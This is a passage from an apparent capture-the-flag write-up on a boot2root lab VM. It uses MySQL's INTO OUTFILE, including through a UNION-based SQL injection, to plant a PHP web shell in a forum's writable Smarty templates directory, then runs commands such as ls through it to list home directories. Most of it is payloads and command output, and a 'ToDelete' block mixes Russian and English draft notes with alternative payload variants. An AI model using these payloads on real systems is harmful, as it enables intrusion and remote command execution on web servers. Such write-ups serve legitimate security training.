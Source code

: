 ```
    SELECT '<? system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

***************************ToDelete***************************
Для целей этой демонстрации мы предположим, что корневой веб-каталог Apache по умолчанию ( / var / www / ) используется с общедоступными разрешениями на запись.
Информацию о веб-сервере, включая корневой каталог, обычно можно найти в файле «phpinfo.php»

templates_c used for compiled templates, but without the actual content, that can be dynamically inserted into them.
Smarty is a template engine for PHP.
This is the name of the directory where compiled templates are located.
By default this is ./templates_c, meaning that Smarty will look for the templates_c/ directory in the same directory as the executing php script.
This directory must be writeable by the web server


insert into backdoor(script) values("<?php echo exec($_GET['cmd'];?>");
select * into outfile "/var/www/backdoor.php" from backdoor;
http://localhost/backdoor.php?cmd=uname -a

Now remember, we want to insert our own PHP code so we can run shell commands.
To do this, we use the INTO OUTFILE feature that MySQL provides.
Using INTO OUTFILE, it is possible for the output of a query to be redirected into a file on the operating system.
we’ll use some very basic PHP code that will read an argument from the URL and run a command against the operating system, using it as an input.
Here is the input that we will give: Harry Potter’ union select “<? system($_REQUEST[‘cmd’]); ?>”,2,3 INTO OUTFILE ‘/var/www/test/execcmd.php’#

SELECT 1, '<?php system($_GET["cmd"]." 2>&1"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
**************************************************************

We have our backdoor, time to check and use it:
```
    https://192.168.31.134/forum/templates_c/backdoor.php?cmd=pwd
    /var/www/forum/templates_c

    url-encoding space: %20

    // ---

    https://192.168.31.134/forum/templates_c/backdoor.php?cmd=ls%20-la
    total 455
    [...]
    -rw-rw-rw- 1 mysql mysql 31 Dec 29 14:42 backdoor.php -rw-rw-rw- 1 mysql mysql 28 Dec 29 14:46 backdoor2.php
    [...]

    // ---

    https://192.168.31.134/forum/templates_c/backdoor.php?cmd=ls%20/home
    LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz

    // ---

    https://192.168.31.134/forum/templates_c/backdoor.php?cmd=ls%20-la%20/home
    total 0
    drwxrwx--x 9 www-data root 126 Oct 13 2015 . 
    drwxr-xr-x 1 root root 200 Dec 29 2022 .. 
    drwxr-x--- 2 www-data www-data 31 Oct 8 2015 LOOKATME 
    drwxr-x--- 6 ft_root ft_root 156 Jun 17 2017 ft_root 
    drwxr-x--- 3 laurie laurie 143 Oct 15 2015 laurie 
    drwxr-x--- 4 laurie@borntosec.net laurie@borntosec.net 113 Oct 15 2015 laurie@borntosec.net 
    dr-xr-x--- 2 lmezard lmezard 61 Oct 15 2015 lmezard 
```